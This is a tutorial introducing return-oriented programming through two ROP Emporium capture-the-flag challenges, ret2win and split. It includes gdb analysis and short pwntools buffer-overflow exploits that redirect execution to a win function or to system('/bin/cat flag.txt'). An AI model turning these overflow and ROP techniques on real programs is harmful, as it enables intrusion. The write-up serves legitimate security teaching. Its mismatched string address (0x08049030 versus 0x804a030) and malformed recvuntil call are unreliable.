Short Intro to return oriented programming (ROP)
## What the hell is ROP?
return-oriented programming is a technique by which an attacker can induce arbitrary behavior in a program whose control flow he has diverted — without injecting any code. A return-oriented program chains together short instruction sequences already present in a program’s address space, each of which ends in a “return” instruction which can be used to bypass NX/DEP.<br />

A ROP exploit consists of multiple gadgets that are chained together. Each gadget performs some small computation, such as loading a value from memory into a register or adding two registers. In a ROP attack, the attacker finds gadgets within the original program text and causes them to be executed in sequence to perform a task other than what was intended.

## Get Started ret2win

let's start the demonstration by a beginner friendly and easy challenge from ROPemporium "ret2win" download it from [here](https://ropemporium.com/challenge/ret2win.html)
we'll be focusing on 64bit variant, but feel free to use any variant you like. <br />
Running file on the binary we can see it's no stripped

Checksec gives the following

* NX(No Executable) typically applies to the stack: whether or not we can place shellcode on the stack and return to it.
* Stack Canary refers to the guard value placed right before the return address that is tested in the sanity check at the epilogue of a function against stack smashing.
* PIE (Position Independent Executable) refers to binaries compiled in position independent mode. In these cases even the binary image is randomly offset (not at the usual 0x08048000).
* RELRO refers to the writability of the GOT section

Let's run the binary and see what it does


let's fire up gdb (i'll be using gdb-gef you can install it from [here](https://github.com/hugsy/gef)) and check all functions



there is a pwnme and ret2win function.. interesting let's disassemble pwnme



Cool, so this function basically reads the user input using read() in a buffer of size 0x20 (32) but the problem is it reads 56 byte from the stdin so this a classic buffer overflow<br />
Let's try running the binary  with a really long string and see what happens


Segmentation fault !


Using metasploit pattern offset or just the built-in "pattern offset" command in gdb-gef we now know that it takes 40 bytes to overwrite the instruction pointer RIP

Next we are going to get the address of ret2win function which supposedly is the function that will give us the flag but it's uncalled in the main func


ret2win is at 0x400756

Now we have all the info we need let's start writing the mini-exploit.

```python
from pwn import *

r = process('./ret2win')

payload = 'A' * 40 #padding
payload += p64(0x400756) # the address of the function we want to execute
r.sendline(payload)
res = r.recvuntil{'}'} # receiving output until getting the } char which is the final char of the flag
print(res)
```

running the exploit give us the flag successfully

## Challenge 2: Split
Checksec gives us the following:

running it:
```bash
split by ROP Emporium
32bits

Contriving a reason to ask user for data...
> test input

Exiting
```
info functions in gdb and we can see a function pwnme and usefulFunction

We already know there will be a buffer overflow on pwnme function so let's just search for an offset

good now we know that it takes 44 bytes to overwrite the EIP. Now let's see the usefulFunction

There is call to system at 0x0804861a but without any arguments, let's note that address for later. <br />
Now according to the challenge description:
```
I'll let you in on a secret: that useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen.
```
let's find that ```/bin/cat flag.txt``` string, i'll be using ropper in gdb for that

Good now we have what we need to construct the exploit, it will be like this :<br />

```
|-------------------|
|      padding   	|  #A * 44
|-------------------|
|    system addr    |  #0x0804861a
|-------------------|
| usefulString addr |  #0x08049030
|-------------------|
```

which will get us something like this:

```python
from pwn import *

r = process('./split32')

payload = 'A' * 44
payload += p32(0x0804861a) #system addr
payload += p32(0x804a030) #usefulString addr
print (payload)
r.recvuntil('>')
r.sendline(payload)
print r.recvall()
```

running the exploit will successfully get us the flag

